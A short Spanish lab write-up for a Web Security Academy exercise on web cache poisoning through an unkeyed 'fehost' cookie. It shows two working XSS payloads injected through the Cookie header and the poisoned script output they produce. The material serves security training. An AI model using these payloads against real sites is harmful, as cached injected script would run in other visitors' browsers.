






# Web cache poisoning with an unkeyed cookie



## LAB

Observamos que el sitio web que  maneja la cache para que se cargan los recursos.



Tenemos en la cabecera de `Cookie` el valor de `fehost=` es reflejado.



El cual podemos manipular y asi ejecutar codigo javascript.



Al inyectar nuestro javascript `-alert(1)-` podemos ejecutar un alert al recargar el sitio web:

```c
Cookie: session=IMJTcStx99xvOVaFtSRmSO6ZNVm4PbMz; fehost=test"-alert(1)-"aaaa

data = {"host":"0a5200a704d8bd56807b0ddf00c50040.web-security-academy.net","path":"/","frontend":"test"-alert(1)-"aaaa"}
```




```c
        <script>
            data = {"host":"0a5200a704d8bd56807b0ddf00c50040.web-security-academy.net","path":"/","frontend":"test"-alert(1)-"aaaa"}
        </script>
```

Otra manera:



```c
Cookie: session=IMJTcStx99xvOVaFtSRmSO6ZNVm4PbMz; fehost=test"}</script><script>alert(1)//
```

```c
.
.
.
       <script>
            data = {"host":"0a5200a704d8bd56807b0ddf00c50040.web-security-academy.net","path":"/","frontend":"test"}</script><script>alert(1)//"}
        </script>
        <title>Web cache poisoning with an unkeyed cookie</title>
        .
        .
        .
```
